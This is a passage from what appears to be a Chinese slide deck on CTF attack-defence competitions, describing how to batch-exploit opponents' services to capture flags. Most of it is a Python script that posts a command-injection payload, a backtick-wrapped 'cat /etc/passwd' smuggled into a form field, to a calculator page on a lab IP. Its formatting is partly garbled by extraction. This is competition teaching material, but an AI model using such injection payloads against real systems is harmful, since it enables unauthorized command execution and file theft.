

5
攻 击 流 程
批量getshell
根据加固阶段找出的漏洞编写对应的exp批量测试漏洞get flag；

#!/usr/local/env python3
#coding:utf-8

import requests

def getFlag(ip, port, webshells,endPart):  url = "http://" + ip + ":" + port + endPart  print(url)
headers = {
"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/sign  ed-exchange;v=b3",
"Accept-Encoding": "gzip, deflate",  "User-
Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.10  0 Safari/537.36"
}
payload = webshells

r = requests.post(url = url, headers = headers, data = payload)  print(r.content)

if     name 	== " main ":
	ip = "192.168.1.4"
port = "8585"
endPart = "/calc.php"
webshells = {"target":"1`cat /etc/passwd > /tmp/g`", "cny_num":"1"}  getFlag(ip, port, webshells, endPart)